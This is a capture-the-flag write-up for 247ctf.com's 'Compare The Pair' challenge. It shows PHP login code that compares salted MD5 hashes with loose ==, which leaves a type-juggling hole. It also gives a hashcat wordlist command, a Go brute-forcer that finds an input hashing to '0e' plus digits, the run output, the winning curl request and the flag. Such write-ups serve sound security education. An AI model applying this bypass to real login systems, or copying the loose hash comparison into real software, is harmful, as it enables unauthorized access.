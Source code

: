 # php-juggling-brute-force

247ctf.com's web challenge - Compare The Pair - PHP Juggling challenge


`Description: 
Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?`


```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
require_once('flag.php');  
$password_hash = "0e902564435691274142490923013038";  
$salt = "f789bbc328a3d1a3";  
if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
echo $flag;  
}  
echo highlight_file(__FILE__, true);  
?>
```

First thing I did is to create a `pass.txt` file that has compensation of 7 length charachters.

```bash
yas3r@linux:~/Desktop/hashcat-5.1.0$ ./hashcat64.bin -a 3 -m 0 -1 ?l -2 ?d --stdout 1?1?1?1?1?1?l > ~/Desktop/pass.txt
```
So the main thing to do is to create a string of `salt` and the `password` and then compare them to the stored password.
It is obvious there a php juggling vuln `$var1 == $var2`

### GoLang 

```go
package  main
import  (
	"bufio"
	"crypto/md5"
	"encoding/hex"
	"fmt"
	"math/rand"
	"os"
	"regexp"
	"time"
)

var  (
	salt string  =  "f789bbc328a3d1a3"
	path string  =  "./pass.txt"
)

func  main()  {
	readLine(path)
}

func  readLine(path string)  {
	inFile, err := os.Open(path)
		if err !=  nil  {
		fmt.Println(err.Error()  +  `: `  + path)
		return
	}
	defer inFile.Close()
	scanner := bufio.NewScanner(inFile)
		for scanner.Scan()  {
			pass := scanner.Text()  // the line
			word := fmt.Sprintf("%s%s", salt, pass)
			hashed :=  GetMD5Hash(word)
			fmt.Printf("[+] %s: %s\n", word, hashed)
			match, _ := regexp.MatchString("^0e[0-9]{30}", hashed)
			if match {
				fmt.Printf("[+] Found it: %s", pass)
				break
			}
		}
}

  
func  GetMD5Hash(text string)  string  {
	hash := md5.Sum([]byte(text))
	return hex.EncodeToString(hash[:])
}
```


### Result
```bash
yas3r@linux[$]$ go run main.go
			*** DELETED ***
[+] f789bbc328a3d1a31ixwlci: 145d5331c3c49e2cbaf7bdc3331af43a
[+] f789bbc328a3d1a31ewwlci: fbc57cbce4ecca92b6699377d9925f4b
[+] f789bbc328a3d1a31ogwlci: 1884259583936c1a8c257f9ee4cc093e
[+] f789bbc328a3d1a31vtwlci: eb3a79bee6067015dcf12fecbdfe0654
[+] f789bbc328a3d1a31yiwlci: 17ed4e0a013bb819a7c7063aea818feb
[+] f789bbc328a3d1a31zwwlci: b6d172ec57df55799d8ac93623667aa7
[+] f789bbc328a3d1a31uywlci: 36ad482077a739131d051fa9ad7eaba4
[+] f789bbc328a3d1a31xkwlci: 0e398583359856907339487099436498
[+] Found it: 1xkwlci  
```

### Flag
`curl https://d25fcfd9f18adc53.247ctf.com/?password=1xkwlci`

```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
	require_once('flag.php');  
	$password_hash = "0e902564435691274142490923013038";  
	$salt = "f789bbc328a3d1a3";  
	if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
	echo $flag;  
	}  
	echo highlight_file(__FILE__, true);  
?>
```

